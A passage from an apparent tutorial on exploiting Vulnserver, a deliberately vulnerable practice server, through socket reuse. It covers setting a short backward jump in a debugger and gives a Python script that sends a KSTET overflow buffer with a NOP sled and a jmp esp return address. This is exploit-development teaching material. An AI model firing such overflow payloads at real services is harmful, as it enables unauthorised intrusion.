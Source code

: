 ![](/assets/images/2019-06-21-using-socket-reuse-to-exploit-vulnserver/0011.jpg)

We can verify this by either following the arrow on the left side of the instructions, or by highlighting the edited instruction again and clicking the `G` key to generate the graph view. If correct, the `jmp` should go to the start of the `\x41` island.

![](/assets/images/2019-06-21-using-socket-reuse-to-exploit-vulnserver/0010.jpg)

We can now update the exploit to include this instruction before the `\x43` island that was previously in place and replace the remaining bytes in both the 70 byte and 20 byte islands with NOP sleds so that we can work with them a bit easier later when we are assembling our exploit in the debugger.

After making these changes, the exploit should look like this:

```python
import os
import socket
import sys

host = '10.2.0.129'
port = 9999

buffer =  'KSTET '
buffer += '\x90' * 70
buffer += '\xaf\x11\x50\x62'    # jmp esp
buffer += '\xeb\xb4'            # jmp 0x0110f97e
buffer += '\x90' * 500

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

s.recv(1024)
s.send(buffer)

s.close()
```
